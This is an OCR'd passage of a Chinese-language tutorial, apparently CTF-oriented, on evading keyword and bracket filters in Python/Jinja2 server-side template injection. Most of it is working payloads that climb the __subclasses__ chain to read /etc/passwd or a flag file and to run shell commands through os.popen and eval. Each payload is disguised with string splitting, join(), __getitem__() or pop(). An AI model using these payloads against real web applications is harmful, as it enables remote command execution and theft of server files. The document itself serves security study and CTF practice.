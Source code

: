 #### 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了flag，那么我们可以用 `fl""ag` 或 `fl''ag` 的形式来绕过：

```
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

再如：

```
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用引号绕过。

#### 利用join()函数绕过

我们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：

```
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

### 绕过其他字符

#### 过滤了中括号\[ \]

**利用 `__getitem__()` 绕过**

可以使用 `__getitem__()` 方法输出序列属性中的某个索引处的元素，如：

```
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')
```

如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```

**利用 pop() 绕过**

`pop()`方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}       // 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       // 指定字典属性
```
